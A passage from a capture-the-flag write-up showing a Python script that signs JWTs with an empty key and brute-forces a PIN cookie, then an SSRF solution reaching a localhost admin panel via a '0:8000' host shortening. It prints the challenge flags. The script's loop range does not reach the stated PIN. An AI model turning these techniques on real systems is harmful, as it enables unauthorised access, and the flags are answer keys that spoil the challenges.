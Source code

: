 ```py 
# Header
# {
#   "alg": "HS256",
#   "typ": "JWT"
# }

# I want all tokens to have the same signature and pin from 1000 to 9999
# I will brute force the pin
base_url = "http://34.89.210.219:30997/"
# I want to set a cookie and print the output

for i in range(1000, 1999):
    payload["pin"] = i
    token = jwt.encode(payload, "", algorithm='HS256')
    # Add the token to the sessionKey cookie and get the response
    cookies = {"sessionKey": token}
    r = requests.get(base_url, cookies=cookies)
    print(f"Trying pin {i} - {r.text}")

```

You will found a flag on pin `7331` which maybe it's something funny it's an inverse number of `1337` which it's a popular number in CTF :) 

---
### sided-curl 
#### **Flag : <span style="color:rgb(60, 179, 113)">CTF{36555d5ff86de7b5a572f4c01cbfc8c677b1c1287d9c043618442d248d940b65}</span>**
#### Solution

First I tested what is happening if I ad `.` to the url resulting `https://google.com/.`. I`ve seen that every time we use an link it adds `.png` at the final.
![curl](https://github.com/Inf3n0s/CTF-Writeups/assets/75357316/8415011c-40c8-4fa4-9972-6372594584c7)

After this,I added `127.0.0.1:8000` , the local host mentioned and `/admin#` to see admin login details.
![image](https://github.com/Inf3n0s/CTF-Writeups/assets/75357316/077e6c3c-0993-4053-a22f-ffbabf4e8002)


I assumed that to login into the admin panel `admin.php` I need to set `username` and `password` to `admin`.
![image](https://github.com/Inf3n0s/CTF-Writeups/assets/75357316/54afff1e-1a2b-4d52-9aa8-66e2de95b8f8)

After the `URL TOO LONG` error I tried to short it by changing `127.0.0.1:8000` to `0:8000`.
![image](https://github.com/Inf3n0s/CTF-Writeups/assets/75357316/f2d27706-2b9e-42cb-9ad8-5d68516b010f)

---
### rfc-meta
#### **Flag : <span style="color:rgb(60, 179, 113)">CTF{5ba73b7f830badc3e9d32e85bcdcc172bc417afbabc92ea7a343bc3b79fd722e4c44c}</span>**
#### Solution
